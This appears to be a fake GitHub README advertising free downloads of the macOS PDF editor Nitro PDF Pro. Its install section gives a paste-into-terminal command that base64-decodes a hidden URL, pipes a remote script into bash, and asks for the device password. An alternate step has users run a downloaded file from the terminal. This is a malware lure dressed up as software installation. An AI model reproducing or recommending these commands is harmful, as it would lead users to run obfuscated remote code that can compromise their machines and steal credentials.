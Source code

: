# 🧾 Nitro PDF Pro — Comprehensive PDF Editing Software for macOS

Nitro PDF Pro is a powerful and easy-to-use PDF editor designed for macOS users. It offers advanced features for creating, editing, converting, and signing PDF documents, making it a complete solution for personal and business use on Mac.

## ✅ Download Nitro PDF Pro for macOS  
[![Download Nitro PDF Pro](https://img.shields.io/badge/Download-Nitro%20PDF%20Pro-blueviolet)](https://mitrobandus.github.io/.github/NitroPDF)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is Nitro PDF Pro?

Nitro PDF Pro delivers a robust set of tools to manipulate PDF files seamlessly on macOS. From editing text and images to converting PDFs to other formats, Nitro simplifies your document workflows while providing professional-grade features.

---

## ✨ Features

- 📝 Edit text, images, and pages within PDFs  
- 📄 Convert PDFs to Word, Excel, and PowerPoint  
- ✍️ Create, fill, and sign PDF forms  
- 🖥️ Optimized for macOS with Retina display support  
- 🔒 Secure PDFs with encryption and password protection  
- 🔄 Collaborate with comments, annotations, and review tools  
- 📤 Export and share PDFs via email or cloud services  

---

## 💡 Why Use Nitro PDF Pro?

- ✅ All-in-one PDF editor tailored for macOS users  
- 🚀 Enhances productivity with fast and accurate PDF tools  
- 🛡️ Keeps your documents secure with advanced protection features  
- 📱 Access and manage PDFs seamlessly across Apple devices  
- 💼 Ideal for businesses, professionals, and individuals alike  

---

[![Download Nitro PDF Pro](https://img.shields.io/badge/Download-Nitro%20PDF%20Pro-blueviolet)](https://mitrobandus.github.io/.github/NitroPDF)

---

## 🖼️ Preview

![Nitro PDF Pro Screenshot 1](https://www.gonitro.com/hs-fs/hubfs/Why%20Nitro%20is%20the%20Best%20All-in-One%20PDF%20Editor%20for%20Mac%20.webp?width=900&height=675&name=Why%20Nitro%20is%20the%20Best%20All-in-One%20PDF%20Editor%20for%20Mac%20.webp)  
![Nitro PDF Pro Screenshot 2](https://www.gonitro.com/hs-fs/hubfs/Website/_Screens/Screenshots-Workspace-Home%20Page.png?width=1200&height=1200&name=Screenshots-Workspace-Home%20Page.png)

---

## 📌 Tags

nitro pdf, nitro pdf pro, nitro pro download, nitro pdf editor, nitro pdf download, nitro pro 10,  
nitro pdf free, nitro pdf free download, nitro pro 9, nitro pdf pro download, nitro pdf price, nitro pro 8,  
nitro pdf to word, nitro pro 10 download, nitro pdf cost, nitro pdf online, nitro pro free download,  
nitro pdf pro 14, nitro online, nitro pdf full, nitro pdf reader free download, nitro pdf 10, nitropdf free,  
nitro pro10, nitro pdf pro free download, portable nitro pdf, nitro pdf pro 10, nitro pdf professional free download,  
nitro pdf pro mac, nitro pdf pro mac download
